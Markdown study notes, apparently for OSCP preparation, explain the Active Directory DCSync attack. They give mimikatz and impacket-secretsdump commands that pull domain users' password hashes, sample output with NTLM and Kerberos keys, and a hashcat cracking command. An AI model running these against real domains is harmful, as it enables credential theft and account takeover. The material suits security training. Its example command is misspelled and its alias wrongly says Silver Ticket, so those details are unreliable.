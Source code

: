 ```yaml
---
aliases:
  - Active Directory Password Attacks - Silver Ticket
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - active_directory
  - ad
  - adds
  - password_attack
  - dcsync
author: Mehdi N Tehrani
creat_date: 2024-01-07
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Overview
The [_Directory Replication Service_ (DRS) Remote Protocol](https://msdn.microsoft.com/en-us/library/cc228086.aspx) uses [_replication_](https://technet.microsoft.com/en-us/library/cc772726(v=ws.10).aspx) to synchronize these redundant domain controllers. A domain controller may request an update for a specific object, like an account, using the [_IDL_DRSGetNCChanges_](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) API.

Using this attack we can **obtain any domain user's password hash**.
# Attack
#dcsync
[ADsecurity](https://adsecurity.org/?p=2398#MimikatzDCSync)

## Requirement
User's Active Directory Rights either of these:
- _Replicating Directory Changes_
- _Replicating Directory Changes All_
- _Replicating Directory Changes in Filtered Set_

AD groups who usually have these are:
- *Domain Admins*
- *Enterprise Admins*
- *Administrators*


## Tools
### mimikatz
#mimikatz #lsadump_dcsync
```mimikatz
lsadump::dcsync /user:<domain>\<user>
```
example:
```mimikatz
lsadimp::dcsync /user:corp\dave
```
output:
```
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
```

#### Hashcat
#hashcat #mode_1000 #ntlm 
```sh
hashcat -m 1000 hashes.dcsync $wordlist -r $rule
```
### secretsdump
#secretsdump #impacket
[secretsdump - Github](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

```sh
impacket-secretsdump -just-dc-user $target_username $domain/$user:$pass@$dc_ip
```
output:
```
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
[*] Kerberos keys grabbed
dave:aes256-cts-hmac-sha1-96:4d8d35c33875a543e3afa94974d738474a203cd74919173fd2a64570c51b1389
dave:aes128-cts-hmac-sha1-96:f94890e59afc170fd34cfbd7456d122b
dave:des-cbc-md5:1a329b4338bfa215
[*] Cleaning up... 
```

The output of the tool states that it uses [DRSUAPI](https://wiki.samba.org/index.php/DRSUAPI), the Microsoft API implementing the Directory Replication Service Remote Protocol.